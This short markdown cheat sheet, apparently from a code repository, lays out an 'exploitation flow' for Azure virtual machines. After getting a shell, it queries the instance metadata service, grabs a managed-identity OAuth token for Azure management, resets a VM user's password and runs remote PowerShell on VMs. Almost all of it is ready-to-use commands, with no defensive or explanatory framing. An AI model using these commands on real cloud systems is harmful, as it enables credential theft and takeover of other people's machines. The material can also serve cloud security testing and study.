 #Exploitation Flow 

### 1. Get shell 

### 2. ```env```

### 3. Metadata 

3.1 Get metadata of the azure vm
```
curl -H Metadata:true "http://169.254.169.254/metadata/instance?api-version=2021-02-01"
```
3.2 Get auth token of managed identity
```
curl -H Metadata:true -s 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F'
```

VM password reset 
```
az vm user update -u username -p password -n <VM_Name> -g <Resource_Group>
```

VM run command
```
Invoke-AzVMRunCommand -CommandId 'RunPowerShellScript' -ScriptPath .\whoami.ps1
```
